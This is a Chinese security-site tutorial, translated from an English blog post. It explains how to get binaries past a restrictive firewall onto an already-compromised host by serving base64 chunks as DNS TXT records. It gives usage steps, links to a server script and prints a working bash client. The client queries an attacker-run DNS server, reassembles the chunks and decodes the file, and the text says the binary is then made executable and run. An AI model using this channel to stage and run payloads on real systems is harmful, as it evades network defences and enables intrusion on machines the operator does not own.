


# 通过 dns 进行文件下载

2014/03/31 11:07 | [我是壮丁](http://drops.wooyun.org/author/我是壮丁 "由 我是壮丁 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

偶尔会遇到这样的情况，防火墙规则极大的限制外网的访问(这种情况经常是一个白名单来处理，仅仅允许少量的主机和外网产生连接)想要下载一下二进制文件到目标主机上，就会很麻烦。

我们来假设这样的一个情景：你已经拥有在上述情况下的主机、需要和你的本机传输工具或者数据。在这个情景下面、你被限制了下载，有一个好办法来突破这种限制，那就是通过 DNS 查询的来获得想要的数据。

如果目标机器的设定的 DNS(或者任何只要目标主机能够在网络上访问的 DNS 服务器)能够在网络上做 DNS 查询。那就能够下载想要的二进制文件。

## 0x02 原理

* * *

不了解这项技术的人可能以为是下面这样的流程:

```
目标主机<---->网络上的 DNS 服务器<---->注册域名服务器<---->攻击者的远端主机 
```

其实是这样的流程：

```
目标主机<---->构建的 DNS 服务器 
```

只要目标主机能够和搭建的 DNS 服务器进行 DNS 解析就可以实现。

方法就是在服务端通过 base64 来编码这些特殊文件，对编码后的文件分块，同时添加到 DNS Server 的记录中，然后在目标主机上进行域名的解析请求，DNS 服务器返回 base64 编码，在对 base64 编码进行解码，这样就实现了文件下载。

## 0x03 实现

* * *

使用方法：

```
1、对需要运行 server.py 脚本的服务器进行配置
2、在服务器上，执行 python server.py -f fielname
3、在客户端上，运行 sh client.sh dns.testdomain.com
4、这时你应该看到 client 和 server 开始产生 base64 的调试输出。client 会把 base64 的编码写到本地文件中，同时在结束传输时解码 
```

### 0x03a Python 代码导入了几个库，这些库可能需要单独安装:

dns 和 argparse，在安装 argparse 的时候可能会报错，根据报错安装所需的库，即可正常运行 server.py

PS:在 https://pypi.python.org/ 能够下载到

server.py 有三个参数：

```
-f  指定需要分割的二进制文件
-q  静默模式，不在终端上输出日志信息
-s  指定开始的 dns 解析的子域，必须设置成一个数字 client.sh 中的 i，必须和-s 指定的一样。默认是 0 
```

### 0x03b 在 server 上运行 server.py，创建 DNS 服务器，a.out 是一个二进制文件。



在目标主机上运行

### 0x03c sh client.sh domain

会产生以下输出



### 0x03d 脚本会对接受的 base64 的编码进行解码，添加执行权限后就可执行，执行二进制文件。


## 0x04 源码

* * *

server.py 下载地址

[`github.com/breenmachine/dnsftp`](https://github.com/breenmachine/dnsftp)

client.sh 脚本

```
#!/bin/bash
error=';; connection timed out; no servers could be reached'
i=0
echo ''> output.b64
while :
do
  RESP=`dig +short $i.$1 TXT | cut -d'"' -f 2`
  if [ "$RESP" = "$error" ];
  then
    echo "Timeout - done"
    break
  fi
  echo -ne $RESP >> output.b64
  echo $RESP
  i=$((i+1))
done
cat output.b64 | base64 -d >> output

```

文件打包下载：[dnsftp-master.zip](http://static.wooyun.org/20141017/2014101715211783609.zip)

翻译出处：

[`breenmachine.blogspot.com/2014/03/downloading-files-through-recursive-dns.html`](http://breenmachine.blogspot.com/2014/03/downloading-files-through-recursive-dns.html)

版权声明：未经授权禁止转载 [我是壮丁](http://drops.wooyun.org/author/我是壮丁 "由 我是壮丁 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [metasploit 渗透测试笔记(内网渗透篇)](http://drops.wooyun.org/tips/2746)
*   [说说 RCE 那些事儿](http://drops.wooyun.org/tools/3786)
*   [Android App Injection&&Drozer; Use](http://drops.wooyun.org/tips/2997)
*   [从内存中窃取未加密的 SSH-agent 密钥](http://drops.wooyun.org/tips/2719)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [Cobalt Strike 之团队服务器的搭建与 DNS 通讯演示](http://drops.wooyun.org/tools/1475)